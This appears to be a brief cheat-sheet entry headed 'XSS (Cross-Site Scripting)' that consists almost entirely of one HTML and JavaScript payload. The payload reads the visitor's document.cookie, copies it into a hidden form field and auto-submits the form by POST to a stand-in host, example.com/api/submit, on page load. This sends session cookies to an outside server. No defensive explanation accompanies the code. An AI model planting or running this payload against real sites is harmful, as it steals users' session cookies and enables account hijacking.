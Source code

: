 # XSS (Cross-Site Scripting)

<pre class="language-html"><code class="lang-html">// Capture the cookie data and send it to a server when the page is loaded
&#x3C;form id="form1" action="http://example.com/api/submit" method="POST">
    &#x3C;input id="cookieValue" name="cookie" value=""/>
    &#x3C;input id="number" name="id" value="100"/>   
&#x3C;/form>

&#x3C;script>
    let cookieData = document.cookie;
    document.querySelector("#cookieValue").value = cookieData;
    document.querySelector("#form1").submit()<a data-footnote-ref href="#user-content-fn-1">;</a>
&#x3C;/script>

</code></pre>

[^1]: 
